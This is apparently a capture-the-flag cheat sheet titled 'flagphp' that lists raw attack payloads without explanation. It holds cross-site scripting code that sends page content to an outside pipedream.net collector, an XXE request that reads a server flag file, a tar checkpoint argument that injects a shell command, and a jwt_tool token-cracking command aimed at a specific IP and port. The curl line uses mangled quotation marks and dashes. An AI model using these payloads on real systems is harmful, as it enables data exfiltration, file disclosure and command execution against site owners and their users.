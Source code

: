 # flagphp

<script>
	var x = document.getElementById("page-top")
	location.href="https://enki758fik199.x.pipedream.net/asd"
</script>

<script>
	var x = document.getElementById("page-top").innerHTML;
	location.href="https://enki758fik199.x.pipedream.net/test" + btoa(x);
</script>

curl -X ‘GET’ –data-binary ‘<?xml version=”1.0” encoding=”ISO-8859-1”?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/flag">
]>
<foo>
&xxe;
</foo>’

-cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec="ls -lah"

python3 jwt_tool.py -t http://34.159.31.74:31800 /api/app/admin -rc "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTIsImlhdCI6MTYzNTkzNjY4OCwiZ XhwIjoxNjM2MDIzMDg4fQ.tQ2KlBU8tI5V1Akiqhwy2LSEOF9oBTvnYFs_xgwro04" -C -d ~/rockyou.txt


